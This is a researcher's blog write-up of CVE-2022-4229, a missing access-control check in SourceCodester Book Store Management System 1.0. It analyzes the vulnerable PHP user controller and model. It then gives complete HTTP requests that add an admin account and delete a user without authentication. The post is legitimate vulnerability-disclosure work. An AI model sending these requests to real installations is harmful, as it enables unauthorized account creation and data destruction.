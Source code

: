 ```yaml
---
template: overrides/blog.html
title: CVE-2022-4229
description: >
  A vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.
hide:
  - feedback
---
```


# SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**My Le** · @msplmee</span>
<span>
:octicons-calendar-24: November 30, 2022 ·
:octicons-clock-24: 5 min read ·
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/casicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: [Book Store Management System Source Code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip)

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.

If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.

On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.

The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.

The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

![Add new account without cookie](CVE-2022-4229/add_user.png)

#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![Delete account without cookie](CVE-2022-4229/delete_user.png)
